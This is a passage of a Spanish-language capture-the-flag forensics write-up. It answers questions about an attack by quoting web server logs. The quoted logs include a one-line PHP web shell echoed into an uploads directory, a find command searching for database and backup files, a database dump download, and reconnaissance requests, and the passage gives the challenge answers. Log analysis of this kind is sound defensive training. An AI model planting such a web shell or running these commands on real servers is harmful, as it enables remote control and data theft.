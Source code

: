 ```
──────────────────────────────────────────────
       │ FFile: application.log
──────────────────────────────────────────────
  20   │ 2025-05-15 11:25:01 [CRITICAL] webapp.api.v2.debug - Backdoor deployment initiated by 121.36.37.224 - command: 'echo "<?php system($_GET[\"cmd\"]); ?>" > /var/www/html/uploads/temp_4A4D.php'
──────────────────────────────────────────────
```

`J2: temp_4A4D.php`

### J3: The threat actor also managed to exfiltrate some data. What is the name of the database that was exfiltrated? (filename.ext)

Podemos confirmar la acción de su enumeración en el `application.log`  

```
──────────────────────────────────────────────
       │ FFile: application.log
──────────────────────────────────────────────
  19   │ 2025-05-15 11:24:34 [CRITICAL] webapp.api.v2.debug - Data exfiltration attempt from 121.36.37.224 - command: 'find /var/www -name "*.sql" -o -name "*.tar.gz" -o -name "*.bck"'
──────────────────────────────────────────────
```

Y la descarga en `access.log`


```
──────────────────────────────────────────────
       │ File: access.log
──────────────────────────────────────────────
  38   │ 2025-05-18 14:58:23 121.36.37.224 - - [18/May/2025:15:58:23 +0000] "GET /uploads/database_dump_4A4D.sql HTTP/1.1" 200 52428800 "-" "4A4D RetrieveR/1.0.0"
──────────────────────────────────────────────
```

`J3: database_dump_4A4D.sql`

### J4: During the attack, a seemingly meaningless string seems to be recurring. Which one is it? (string)

Esto se puede notar tanto sólo en el `access.log`, donde cambia 2 veces el `User-Agent`


```
──────────────────────────────────────────────
       │ File: access.log
──────────────────────────────────────────────
   1   │ 2025-05-01 08:23:12 121.36.37.224 - - [01/May/2025:08:23:12 +0000] "GET /robots.txt HTTP/1.1" 200 847 "-" "Lilnunc/4A4D - SpecterEye"
   2   │ 2025-05-01 08:23:45 121.36.37.224 - - [01/May/2025:08:23:45 +0000] "GET /sitemap.xml HTTP/1.1" 200 2341 "-" "Lilnunc/4A4D - SpecterEye"
   3   │ 2025-05-01 08:24:12 121.36.37.224 - - [01/May/2025:08:24:12 +0000] "GET /.well-known/security.txt HTTP/1.1" 404 162 "-" "Lilnunc/4A4D - SpecterEye"
   4   │ 2025-05-01 08:24:23 121.36.37.224 - - [01/May/2025:08:24:23 +0000] "GET /admin HTTP/1.1" 404 162 "-" "Lilnunc/4A4D - SpecterEye"
   5   │ 2025-05-01 08:24:34 121.36.37.224 - - [01/May/2025:08:24:34 +0000] "GET /login HTTP/1.1" 200 4521 "-" "Lilnunc/4A4D - SpecterEye"
   6   │ 2025-05-01 08:25:01 121.36.37.224 - - [01/May/2025:08:25:01 +0000] "GET /wp-admin HTTP/1.1" 404 162 "-" "Lilnunc/4A4D - SpecterEye"
   7   │ 2025-05-01 08:25:12 121.36.37.224 - - [01/May/2025:08:25:12 +0000] "GET /phpmyadmin HTTP/1.1" 404 162 "-" "Lilnunc/4A4D - SpecterEye"
   8   │ 2025-05-01 08:25:23 121.36.37.224 - - [01/May/2025:08:25:23 +0000] "GET /database HTTP/1.1" 404 162 "-" "Lilnunc/4A4D - SpecterEye"
   9   │ 2025-05-01 08:25:34 121.36.37.224 - - [01/May/2025:08:25:34 +0000] "GET /backup HTTP/1.1" 404 162 "-" "Lilnunc/4A4D - SpecterEye"
```